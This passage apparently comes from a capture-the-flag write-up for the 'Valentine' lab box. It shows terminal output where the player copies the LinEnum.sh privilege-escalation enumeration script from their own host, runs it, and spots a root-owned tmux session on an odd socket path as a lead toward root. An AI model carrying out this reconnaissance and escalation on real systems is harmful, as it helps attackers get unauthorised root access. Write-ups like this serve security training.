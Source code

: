 ```
hype@Valentine:~$ scp fortyfunbobby@10.10.16.53:/tmp/LinEnum.sh .
fortyfunbobby@10.10.16.53's password: 
LinEnum.sh     
hype@Valentine:~/Downloads$ chmod +x LinEnum.sh 
hype@Valentine:~/Downloads$ ./LinEnum.sh -r LinEnum.out

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# 

Debug Info
thorough tests = disabled


Scan started at:
Thu Jul 12 07:43:19 PDT 2018


### SYSTEM ##############################################
Kernel information:
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux


Kernel information (continued):
Linux version 3.2.0-23-generic (buildd@crested) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu4) ) #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012


Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"


Hostname:
Valentine

<...>
```

Didn't see anything interesting in the output that jumps out except for maybe
this process that is running on the system that is taking in a weird directory
as a parameter..

```
root       1021  0.0  0.1  26416  1684 ?        Ss   08:07   0:00 /usr/bin/tmux -S /.devs/dev_sess
```
